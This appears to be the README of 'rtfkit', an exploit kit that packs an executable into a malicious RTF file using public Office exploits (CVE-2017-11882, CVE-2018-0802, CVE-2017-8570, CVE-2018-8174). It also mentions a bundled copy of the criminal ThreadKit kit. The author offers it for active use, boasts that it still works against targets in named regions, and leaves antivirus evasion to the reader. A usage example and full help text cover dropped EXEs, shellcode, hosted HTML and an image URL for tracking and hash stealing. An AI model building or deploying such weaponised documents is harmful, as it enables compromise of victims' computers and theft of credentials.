 My RTF exploit kit from a couple of years ago. You're on your own for AV
evasion. Still works well against certain targets. Especially in the Middle East, parts of Asia,
former Soviet bloc, etc.

Also included a copy of
the [threadkit](https://www.proofpoint.com/us/threat-insight/post/unraveling-ThreadKit-new-document-exploit-builder-distribute-The-Trick-Formbook-Loki-Bot-malware) exploit kit,
courtesy of [the
Russians](https://cyware.com/news/cobalt-gang-found-using-new-version-of-threadkit-exploit-kit-dubbed-cobint-e523901f/).
<3

rtfkit takes an executable and packs it into an RTF with some public pre-compiled exploits.

Usage
=====

Basically this:

    $ ./generate_rtf.py -p artifact.exe --out payload.rtf
    [+] adding exploit equation1 (cve-2017-11882)
    [+] adding exploit equation2 (cve-2018-0802)
    [+] adding exploit composite (cve-2017-8570)
    [.] writing rtf to payload.rtf

Full usage:

    usage: generate_rtf.py [-h] [-D] [-l] [-u USE] [--use-cve USE_CVE]
                           [--exe-name EXE_NAME] [--template TEMPLATE]
                           [--fake-path FAKE_PATH] [-o OUT]
                           [--king-shellcode KING_SHELLCODE] [--king-url KING_URL]
                           [--king-html-out KING_HTML_OUT]
                           [--composite-sct COMPOSITE_SCT]
                           [--image-track IMAGE_TRACK] [-p PACKAGE]
    
    optional arguments:
      -h, --help            show this help message and exit
      -D, --debug           enable debug
      -l, --list            list exploits and additions
      -u USE, --use USE     add exploit (see --list)
      --use-cve USE_CVE     add exploit (by CVE)
      --exe-name EXE_NAME   name for dropped EXE file (for exploits equation and
                            composite)
      --template TEMPLATE   RTF template to add exploit to (default:
                            resources/blank.rtf)
      --fake-path FAKE_PATH
                            fake path for packaged files (default: C:\Drivers)
      -o OUT, --out OUT     RTF output
    
    king exploit:
      King exploit (CVE-2018-8174) options
    
      --king-shellcode KING_SHELLCODE
                            shellcode for CVE-2018-8174 (default:
                            resources/rtf_winexec.bin)
      --king-url KING_URL   URL where HTML will be hosted for king exploit (max:
                            39 chars)
      --king-html-out KING_HTML_OUT
                            output file for king HTML
    
    composite exploit:
      Composite moniker exploit (CVE-2017-8570) options
    
      --composite-sct COMPOSITE_SCT
                            use this SCT file instead of generating one
    
    additions:
      Additional things to add to the RTF
    
      --image-track IMAGE_TRACK
                            include an image from this URL, for tracking and hash
                            stealing
      -p PACKAGE, --package PACKAGE
                            files to add as packages. will by dropped in temp
                            (append fake name with colon)
